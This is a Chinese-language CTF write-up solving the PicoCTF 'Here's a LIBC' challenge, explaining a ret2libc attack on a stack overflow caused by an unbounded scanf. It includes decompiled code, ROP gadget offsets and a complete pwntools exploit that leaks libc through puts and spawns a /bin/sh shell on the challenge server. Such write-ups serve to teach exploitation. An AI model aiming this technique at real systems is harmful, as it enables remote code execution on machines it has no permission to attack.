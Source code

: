 ```yaml
---
title: 【CTF-WriteUp】PicoCTF-Here's a LIBC
date: 2023-10-20
tags:
  - ctf
---
```


題目：
	
	給你指定的libc與elf file請pwn掉它

# 概念：

* 組合語言課學的各種東西
* 逆向工程
* Little endian
* stack frame
* ELF format
* ret2libc

# 題解：

### 執行 file 查看檔案屬性

![checksec](/images/ctf/picoctf_heresalibc/file.png)

這是一個64位ELF格式可執行檔

### 執行 checksec 查看安全屬性

![checksec](/images/ctf/picoctf_heresalibc/checksec.png)

只開了 NX(No-Execute, 堆疊不可執行)

### 拿去Ghidra或IDA逆向

看起來會用到的函式：

```c
char convert_case(char c, int f){
  char ret;
  if( c < 'a' || c > 'z' ){
    if( c < 'A' || c > 'Z' )
	  ret = a;
	else if(f % 2 == 0)
	  ret = a;
	else
	  ret = a + 32;
  }
  else if( f % 2 == 0 )
    ret = a - 32;
  else
    ret = a;
  
  return ret;
}
void do_stuff(){
  char garbage;
  char str[112];
  scanf("%[^\n]", str);
  scanf("%c", &garbage);
  for(int i = 0; i < 100 ; i++){
    str[i] = convert_case(str[i], i);
  }
  puts(str);
}
void main(){
    ...
    // puts(歡迎訊息);
	do{
	  do_stuff();
	}while(true);
}
```

在函式do_stuff()裡，`scanf("%[^\n]", str)` 的意思是會一直讀到換行為止然後塞進 str，
沒有限制輸入長度因此出現Buffer Overflow漏洞

[Ref: PWN 入門 - buffer overflow 是什麼？](https://tech-blog.cymetrics.io/posts/crystal/pwn-intro/)

利用 Buffer Overflow 可以控制程式的執行流程，現在就出現一個問題：該跳到哪？

可以看到在函式最後有個puts()，可以利用這個函式來leak出libc的位址，透過pwntools來算

```py
elf = ELF("./vuln")
libc = ELF('./libc.so.6')
p = process('./vuln')

puts_got = elf.got['puts'] # ELF 格式中的Global Offset Table，存了很多指向變數或函式的指標
puts_plt = elf.plt['puts'] # ELF 格式中的 Procedure Linkage Table，存動態連結的函式

print(hex(puts_got))
print(hex(puts_plt))

mainadr = elf.sym['main'] # 找到puts後我們還要繼續讓程式正常執行，所以要讓程式跳到main

poprdi = 0x400913 
# 在64位元，傳遞第一個參數(rdi)給函式的方法是pop rdi; ret，可以使用ROPGadget工具直接找這段程式的位址
# ROPGadget --binary ./vuln | grep "pop rdi"

pad = 136 # 陣列的位址到return address直接看IDA可以發現差了 0x88 個 bytes

p.recvuntil(b'eR!\n') # 讀歡迎訊息
payload = b'A'*pad + p64(poprdi) + p64(puts_got) + p64(puts_plt) + p64(mainadr)

p.sendline(payload) # 送出
p.recvline() # 略過不需要的字串

puts_leak = u64(p.recv(6)+b'\x00\x00')
print(hex(puts_leak))

libc_base = puts_leak - libc.sym['puts'] # puts的位址減掉偏移就是libc的位址
print(hex(libc_base))
```

目標是要取得對方的shell來控制對方，所以要從libc裡找 system 這個函式以及可以用的shell(/bin/sh)

```py
sym = libc_base + libc.sym['system'] # 從libc找system的位址
binsh = libc_base + next(libc.search(b'/bin/sh\x00')) # 找/bin/sh這個字串然後算實際位址
```

在64位元環境下執行system記憶體要16 bytes對齊(rsp的尾數必須是0)，不是的話會Segmentation fault，
只要在前面加一個ret指令就對齊了


### exploit

```py
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'

elf = ELF("./vuln")
libc = ELF('./libc.so.6')

p = remote('mercury.picoctf.net', PORT)

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
print(hex(puts_got))
print(hex(puts_plt))

mainadr = elf.sym['main']

poprdi = 0x400913

pad = 136

p.recvuntil(b'eR!\n')
payload = b'A'*pad + p64(poprdi) + p64(puts_got) + p64(puts_plt) + p64(mainadr)

p.sendline(payload)
p.recvline()

puts_leak = u64(p.recv(6)+b'\x00\x00')
print('Leaked puts() addr: ', hex(puts_leak))

libc_base = puts_leak - libc.sym['puts']
print('Leaked LibC addr: ', hex(libc_base))

sym = libc_base + libc.sym['system']
binsh = libc_base + next(libc.search(b'/bin/sh\x00'))

ret = 0x40052e # 一樣可用ROPGadget直接找

payload = b'A'*pad  + p64(ret) + p64(poprdi) + p64(binsh) + p64(sym)

p.clean()
p.sendline(payload)

p.interactive()
```